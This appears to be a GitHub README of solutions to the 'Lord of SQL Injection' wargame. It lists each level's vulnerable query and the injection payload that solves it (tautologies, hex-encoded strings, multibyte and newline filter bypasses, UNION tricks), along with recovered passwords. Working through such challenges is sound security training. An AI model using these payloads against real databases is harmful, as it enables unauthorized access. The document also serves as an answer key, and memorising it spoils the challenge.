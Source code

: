 # Lord-of-Sql-injection

>gremlin

prob : select id from prob_gremlin where id='' and pw=''

solve : ?id=' or 1=1%23


>cobolt

prob : select id from prob_cobolt where id='' and pw=md5('')

solve : ?id=' or id='admin'%23


>goblin

prob : select id from prob_goblin where id='guest' and no=

solve : ?no=' or id=0x61646d696e


>orc(blind)

prob : select id from prob_orc where id='admin' and pw=''

solve : ?pw=095a9852


>wolfman

prob : select id from prob_wolfman where id='guest' and pw=''

solve : ?pw=%27||id=0x61646d696e%23


>darkelf

prob : select id from prob_darkelf where id='guest' and pw=''

solve : ?pw=%27||id=0x61646d696e%23


>orge(blind)

prob : select id from prob_orge where id='guest' and pw=''

solve : ?pw=7b751aec


>troll

prob : select id from prob_troll where id='ADmin'

solve : ?pw=AdMin


>vampire

prob : select id from prob_vampire where id=''

solve : ?id=adadminmin


>skeleton

prob : select id from prob_skeleton where id='guest' and pw='' and 1=0

solve : ?pw=' or id='admin'%23


>golem(blind)

prob : select id from prob_golem where id='guest' and pw=''

solve : ?pw=77d6290b


>darknight(blind)

prob : select id from prob_darkknight where id='guest' and pw='' and no=

solve : ?pw=0b70ea1f


>bugbear(blind)

prob : select id from prob_bugbear where id='guest' and pw='' and no=

solve : ?pw=52dc3991


>giant

prob : select 1234 from{$_GET[shit]}prob_giant where 1

solve : ?shit=%0b,?shit=%0c


>assasin 

prob : select id from prob_assassin where pw like ''

solve : ?pw=%E%D%

memo : a% , %a , %a%


>zombie_assassin

prob : select id from prob_zombie_assassin where id='' and pw=''

solve : pass

memo : %bf' or 1=1--%20 -> %20--1=1 ro '%bf


>succubus(pass)

>nightmare(pass)


>xavis(blind)

prob : select id from prob_xavis where id='admin' and pw=''

solve : ?pw=우왕굳

memo : 한글 ascii


>dragon

prob : select id from prob_dragon where id='guest'# and pw=''

solve : ?pw='%0aand pw=12311312312312 or id='admin

memo : %0a -> 줄바꿈  # -> 한줄 주석


>iron_golem(error based blind)

prob : select id from prob_iron_golem where id='admin' and pw=''

solve : ?pw=06b5a6c16e8830475f983cc3a825ee9a


>dark_eyes(error based blind)

prob : select id from prob_dark_eyes where id='admin' and pw=''

solve : ?pw=5a2f5d3c


>hell_fire(error based blind)

prob : select id,email,score from prob_hell_fire where 1 order by

solve : ?pw=admin_secure_email@emai1.com


>green_dragon

prob : select id,pw from prob_green_dragon where id='' and pw=''

solve : ?id=\&pw = union select 0x5c,(select 0x756e696f6e2073656c6563742030783631363436643639366523)%23

memo : query1=select id,pw from prob_green_dragon where id='\' and pw='union select 1,2#'
       query2=select id from prob_green_dragon where id='1' and pw='2',
       쿼터 필터링, 
       query1 : id=\&pw = union select 0x5c,(select 0x756e696f6e2073656c6563742030783631363436643639366523)%23 
       query2 : id = \ , pw = union select 0x61646d696e#
       0x5c
       0x756e696f6e2073656c6563742030783631363436643639366523   


>red_dragon(노가다)

prob : select id from prob_red_dragon where id='' and no=1

solve : 586482014

memo : id는 7자리까지, no는 is_numeric함수 사용, #과 개행문자로 우회


>blue_dragon(timed based)

prob : select id from prob_blue_dragon where id='' and pw=''

solve : d948b8a0